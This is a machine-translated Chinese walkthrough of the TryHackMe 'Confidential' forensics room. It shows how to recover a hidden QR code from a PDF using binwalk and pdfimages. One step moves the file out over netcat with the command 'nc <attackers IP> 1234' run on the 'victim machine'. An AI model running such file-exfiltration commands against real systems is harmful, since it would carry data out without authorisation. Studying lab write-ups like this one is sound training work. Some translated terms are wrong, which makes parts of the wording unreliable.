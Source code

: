 # 机密— TryHackMe 演练

> 原文：<https://infosecwriteups.com/tryhackme-confidential-walk-through-8b8294579134?source=collection_archive---------1----------------------->

我的名字是克里希纳德夫·P·梅勒维拉，我是一名昆虫赏金猎人。要了解我更多，在谷歌上搜索我的名字。

我通常在我的中型博客上发布我的 bug bounty 文章，但这是我第一次发布 TryHackMe room 文章。

所以让我们开始吧，

房间名称:机密([https://tryhackme.com/room/confidential](https://tryhackme.com/room/confidential)

发布日期:2022 年 8 月 19 日

我们会获取部分二维码进行调查。(点击显示分割视图)

![](img/91dbd6ae6f06102f76182ba259b405f7.png)

如果我们打开 PDF，可以看到它被部分覆盖，因此我们无法扫描它。

让我们在 PDF 上做一个 [*binwalk*](https://www.kali.org/tools/binwalk/#:~:text=Binwalk%20is%20a%20tool%20for,embedded%20inside%20of%20firmware%20images.) 。

![](img/c8cdb1f398ef3a65b5be41871f954fb7.png)

但是我认为在 THM 机器上运行 binwalk 和我们需要的其他工具是困难的。所以我们可以把 PDF 下载到我们的机器上。

为此，我们可以利用 netcat 会话。

> **要在我们的机器上执行的命令:**

```
 nc -lnvp 1234 > sus.pdf
```

> **要在受害机器上执行的命令:**

```
nc <attackers IP> 1234 < Repdf.pdf
```

现在 nc 将把 Repdf.pdf 下载到我们的机器上。

现在我们可以在这里使用人行道:

```
binwalk sus.pdf
```

![](img/3100847070fb7df287c9fc7e1f311a2f.png)

它很乱，所以我们可以检查另一个叫做 pdfimages 的工具

```
pdfimages -all sus.pdf ext
```

![](img/c8e1f9381cc03c1b4cbb38eaa57e5f7e.png)

现在我们将得到三个图像，让我们打开它。

![](img/a902d13aae29374f8c56e9993266288c.png)![](img/35fefde2b7be6fb8c4923a5667667cdc.png)![](img/408a6076e66b61bbbfcdd104b49f2bba.png)

所以我们得到了真正的二维码。因此，如果我们使用手机或任何库(如 opencv)扫描它，我们可以读取标志。

感谢您阅读本文。希望你喜欢。

***别忘了在 medium 等社交媒体上关注我。也请为这篇文章鼓掌 50 次，这是我写更多的灵感！！***

我需要你的支持来写更多，请给我买杯咖啡吧:[https://www.buymeacoffee.com/krishnadevpm](https://www.buymeacoffee.com/krishnadevpm)

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特手柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 手柄:*[*https://www.linkedin.com/in/krishnadevpmelevila/*](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[*http://krishnadevpmelevila.com/*](http://krishnadevpmelevila.com/)

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*